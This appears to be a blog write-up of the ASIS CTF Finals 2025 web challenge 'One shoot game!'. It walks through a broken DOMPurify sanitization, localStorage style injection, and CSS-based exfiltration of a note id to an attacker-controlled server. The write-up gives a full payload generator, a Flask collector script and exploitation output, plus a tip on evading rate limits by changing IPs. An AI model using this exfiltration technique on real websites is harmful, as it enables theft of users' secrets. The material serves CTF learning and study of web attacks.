





+++
title = 'ASIS CTF Finals 2025 One shoot game!'
date = 2025-12-28T20:22:53+01:00
categories = ['ASIS CTF Finals 2025', 'Web']
+++

## Overview

> Can you one shoot me?

Solves: 10



---

## 1. General Analysis

- The application is written in Python and uses Flask.
- Each time the bot is called, it will create an account with random credentials, log in, create a new note with the target flag in its content, and then visit our note.
- The endpoint to display a note `/display/<string:doc_id>` only requires that we're logged in, but as long as we know its id we can view any note.

---

## 2. Broken DOMPurify Sanitization

The file `src/app/templates/workspace/display.html` contains the following script.

```html
<script src="{{ url_for('static', filename='js/options.js') }}"></script>
<script nonce="{{ nonce }}">
    if (options.user_styling) {

        const theme = document.createElement('style');
        const hidden = document.getElementById('document-body-hidden');

        const body = document.getElementById('document-body');
        // disable tag id
        body.innerHTML = DOMPurify.sanitize(body.textContent,{ RETURN_DOM: true, ALLOWED_TAGS: ['class', 'style'] }).ownerDocument.documentElement.innerHTML;

        theme.textContent = document.getElementById('user-theme-styles').textContent;
        theme.nonce = '{{ nonce }}';
        document.head.appendChild(theme);
        localStorage.setItem('user_theme', theme.textContent);
    }
</script>
```

The comment `// disable tag id` is bullshit. There's nothing in the code that disables the tag id. The part `ALLOWED_TAGS: ['class', 'style']` confuses HTML tags with attributes. Furthermore, our input to be sanitized is taken from this div:

```html
<div class="document-body" id="document-body">
    <!-- hidden tag -->
    <p id="document-body-hidden">{{ document.body }}</p>
</div>
```

There's a serious bug in this code. The sanitization is called on `body.textContent`, which returns the concatenation of the textContent of every child node instead of inner HTML. For example, if we create the following note:



This is the result of `body.innerText`:



And as we can see, nothing got sanitized by DOMPurify.


---

## 3. Style Manipulation

The script takes the textContent of the element with id `user-theme-styles`, which doesn't exist on the page, and sets it as `user_theme` in localStorage.

```js
theme.textContent = document.getElementById('user-theme-styles').textContent;
theme.nonce = '{{ nonce }}';
document.head.appendChild(theme);
localStorage.setItem('user_theme', theme.textContent);
```

In `src/app/templates/base.html`, `user_theme` from localStorage is used to fill in the content of a style tag.

```html
<script nonce="{{ nonce }}">
    const theme = document.createElement('style');
    theme.textContent = localStorage.getItem('user_theme') || "";
    theme.nonce = '{{ nonce }}';
    document.head.appendChild(theme);
</script>
```

Based on these observations, we can control the styles on any page on the website after a redirect if we first create an element with the id `user-theme-styles` in a note. We can achieve the redirect easily by adding a meta tag to a note.

---

## 4. CSS Exfil via 2 Characters Permutations

The most interesting path we can redirect the bot to is `/workspace/home` since it contains the flag note id in its HTML.


The pages are secured by the following CSP.

```py
@application.after_request
def apply_security_headers(response):
    security_token = getattr(g, 'nonce', '')
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-XSS-Protection'] = '1; mode=block'
    response.headers['Content-Security-Policy'] = (
        f"default-src 'self'; "
        f"script-src 'self' 'nonce-{security_token}'; "
        f"style-src 'self' 'nonce-{security_token}'; "
        f"img-src *; "
        f"font-src 'self'; "
        f"connect-src 'self'; "
    )
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=()'
    return response
```

We're very limited except for images, which we can request from any origin. We're gonna base our exfiltration exploit on [0CTF 2023 newdiary writeup by huli](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves) but instead of generating all permutations of three characters from [0-9][a-f] we're going to do it with just two. Here's the script to generate our note payload:

```py
import itertools

S = 'body > div > div.grid > div:nth-child(1) > div.document-actions > a:nth-child(1)'
# TODO replace with your domain
U = 'http://YOUR_DOMAIN/leak?q='
C = '0123456789abcdef'

def generate():
    bridge = [f'display/{c}' for c in C]
    bigrams = [''.join(p) for p in itertools.product(C, repeat=2)]
    vars_list = []
    
    print('<div id="user-theme-styles">', end='')
    
    for b in bridge:
        vn = f"b{b[-1]}"
        vars_list.append(vn)
        print(f'{S}[href*="{b}"]{{--{vn}:url({U}{b})}}', end='')
        
    for bi in bigrams:
        vn = f"v{bi}"
        vars_list.append(vn)
        print(f'{S}[href*="{bi}"]{{--{vn}:url({U}{bi})}}', end='')
    
    fade = "none"
    for v in reversed(vars_list):
        fade = f"-webkit-cross-fade(var(--{v},none),{fade},50%)"
    
    print(f'{S}{{display:block!important;background-image:{fade}}}', end='')
    print('</div><meta http-equiv="refresh" content="0; url=/workspace/home">')

if __name__ == "__main__":
    generate()
```

On top of generating the two-character permutations, we additionally generate `display/{c}` for each character that will allow us to determine what character the flag note id starts with.  

The server script is the following:

```py
from flask import Flask, request
import sys

sys.setrecursionlimit(2000)

app = Flask(__name__)

ID_LENGTH = 25
leaked_bigrams = set()
start_char = None

def find_all_ids(current_str, remaining_chunks):
    if len(current_str) == ID_LENGTH:
        if not remaining_chunks:
            return [current_str]
        return []
    last_char = current_str[-1]
    results = []
    options = [c for c in remaining_chunks if c[0] == last_char]
    for chunk in options:
        new_remaining = remaining_chunks.copy()
        new_remaining.remove(chunk)
        found = find_all_ids(current_str + chunk[1], new_remaining)
        results.extend(found)

    return results

@app.route('/leak')
def leak():
    global start_char
    q = request.args.get('q')
    if not q: return ""

    print(f"[+] Received: {q}")

    if q.startswith("display/"):
        start_char = q[-1]
        print(f"[*] ANCHOR: {start_char}")
    elif len(q) == 2:
        leaked_bigrams.add(q)
    return ""

@app.route('/solve')
def solve():
    if not start_char:
        return "<h3>Missing anchor (display/x)</h3>"

    hex_chars = "0123456789abcdef"
    clean_pool = [c for c in leaked_bigrams if all(x in hex_chars for x in c)]
    path_noise = ['ac', 'ce', 'ed', 'de']
    clean_pool = [c for c in clean_pool if c not in path_noise]

    print(f"[*] Solving for all paths. Pool: {len(clean_pool)} unique bigrams.")
    solutions = find_all_ids(start_char, clean_pool)
    html = f"<h2>Search Results</h2><p>Chunks: {len(clean_pool)} | Anchor: {start_char}</p><hr>"
    if solutions:
        html += f"<h3>{len(solutions)} Possible ID(s) Found:</h3><ul>"
        for s in set(solutions):
            html += f"{s}\n"
        html += "</ul>"
    else:
        html += "<p style='color:red;'>No valid path found that uses all leaked chunks. Check your logs for missed bigrams.</p>"
        html += f"<p><b>Chunks currently held:</b> {sorted(clean_pool)}</p>"

    return html

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

Since we can keep calling the bot repeatedly, and for each call, it will generate a new note with a random id, we opt for these two constraints to simplify our solution:

- Each pair of two adjacent characters in the note id must be unique (this will result in 24 unique pairs since the note id length is 25),
- No pair of two adjacent characters in the note id can be `['ac', 'ce', 'ed', 'de']`, because they will always come from the path prefix 
`/workspace/display`.

We might have to restart the server and submit a report to the bot a few times before we get a note id that fulfills the aforementioned criteria.

---

## 5. Exploitation Example

We generate the note payload and create a note.



We spin up the server.


We copy the id of our newly generated note.



We report it to the bot.


After the bot visit, we send a request to `/solve` on our server.

```
curl localhost/solve
<h2>Search Results</h2><p>Chunks: 23 | Anchor: 7</p><hr><p style='color:red;'>No valid path found that uses all leaked chunks. Check your logs for missed bigrams.</p><p><b>Chunks currently held:</b> ['00', '03', '0a', '12', '18', '20', '29', '2b', '36', '6b', '6d', '71', '82', '8c', '90', '96', 'ab', 'af', 'b0', 'b2', 'b8', 'c9', 'd1']</p>
```

We didn't get chunks that met our criteria specified earlier. We restart the server and report our note again until we succeed (it might take some tries).

```
curl localhost/solve
<h2>Search Results</h2><p>Chunks: 24 | Anchor: 6</p><hr><h3>2112 Possible ID(s) Found:</h3><ul>6ca1006d24011bd7644b95f49
6ca11001bd764406d24b95f49
6d76ca1b95f44bd2400110649
6ca1006d2495f44bd764011b9
6d76495f4bd244006ca1011b9
...
6d24b95f40011bd76ca106449
6ca11bd24400106d76495f4b9
</ul>
```

We copy all of the ids (2111 in this case) and attempt to display a note using each one of them.


We find the correct id and get the flag.


---

## 6. Final Notes

I didn't notice at first that there's a 5 requests per 30 mins or so rate limit on remote; you might have to switch to different IPs for the report. 

XOXO,  
VXXDXX